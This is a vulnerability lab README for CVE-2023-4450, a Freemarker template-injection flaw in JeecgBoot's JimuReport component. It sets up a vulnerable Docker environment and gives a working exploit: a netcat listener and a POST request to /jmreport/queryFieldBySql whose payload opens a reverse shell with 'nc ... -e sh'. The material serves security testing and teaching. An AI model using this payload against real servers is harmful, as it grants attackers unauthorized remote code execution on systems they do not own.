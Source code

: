 # JeecgBoot SSTI (CVE-2023-4450)

[中文版本(Chinese version)](README.zh-cn.md)

JeecgBoot is an open source low-code development platform, Jimureport is one of the low code
Report component.

An issue was discovered in Jimureport lower than 1.6. An unauthorized api called `/jmreport/queryFieldBySql` led to
remote arbitrary code execution due to parsing SQL statements using Freemarker.

References:

- <https://www.oscs1024.com/hd/MPS-4hzd-mb73>
- <https://www.reajason.eu.org/writing/freemarkersstimemshell>

## Vulnerable Environment

Execute following command to start a JeecgBoot site 3.5.3:

```
docker compose up -d
```

You can access the JimuReport website through `http://your-ip:8080/jeecg-boot/jmreport/list` after the server is
started.

## Exploit

### Reversed Shell

open a listener for reversed shell

```bash
 nc -lvvp 2333
```

send freemarker payload with sql parameter through `http://your-ip:8080/jeecg-boot/jmreport/queryFieldBySql`

```http request
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: your-ip:8088
Content-Type: application/json

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"nc your-ip 2333 -e sh\")}",
    "type": "0"
}
```

![](1.png)